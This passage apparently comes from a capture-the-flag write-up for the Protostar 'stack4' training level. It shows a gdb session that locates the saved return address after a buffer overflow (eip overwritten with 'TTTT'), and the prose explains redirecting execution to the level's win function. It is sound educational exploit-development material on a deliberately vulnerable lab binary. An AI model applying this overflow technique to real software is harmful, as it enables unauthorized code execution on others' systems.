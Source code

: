 ``` shell
(gdb) break *0x0804841e
Breakpoint 1 at 0x804841e: file stack4/stack4.c, line 16.
(gdb) define hook-stop
Type commands for definition of "hook-stop".
End with a line saying just "end".
>x/24wx $esp
>x/1i $eip
>end
(gdb) r < /tmp/exp
Starting program: /opt/protostar/bin/stack4 < /tmp/exp
0xbffff7cc:     0x54545454      0x55555555      0x56565656      0x57575757
0xbffff7dc:     0x58585858      0x59595959      0x5a5a5a5a      0xb7ffef00
0xbffff7ec:     0x0804824b      0x00000001      0xbffff830      0xb7ff0626
0xbffff7fc:     0xb7fffab0      0xb7fe1b28      0xb7fd7ff4      0x00000000
0xbffff80c:     0x00000000      0xbffff848      0xf93bc179      0xd36c1769
0xbffff81c:     0x00000000      0x00000000      0x00000000      0x00000001
0x804841e <main+22>:    ret

Breakpoint 1, 0x0804841e in main (argc=Cannot access memory at address 0x5353535b
) at stack4/stack4.c:16
...
(gdb) si
Cannot access memory at address 0x53535357
(gdb) info registers
eax            0xbffff780       -1073744000
ecx            0xbffff780       -1073744000
edx            0xb7fd9334       -1208118476
ebx            0xb7fd7ff4       -1208123404
esp            0xbffff7d0       0xbffff7d0
ebp            0x53535353       0x53535353
esi            0x0      0
edi            0x0      0
eip            0x54545454       0x54545454
eflags         0x210246 [ PF ZF IF RF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
``` 

First, I run my script and save its output to **/tmp/exp**. Then, I start the program in `gdb` and set a breakpoint at `0x0804841e`, which is the **ret** instruction. This lets me check the value of **eip** right before the function returns.

When the program hits the breakpoint, I see that **eip** holds the value **0x54545454**, and **0x54** corresponds to the character 'T'. So my padding will start from 'A' to 'S'.

Now, to complete the exploit, I just need to replace the next 4 bytes with the address of the **win** function. Once I do that, I’ll beat this level.
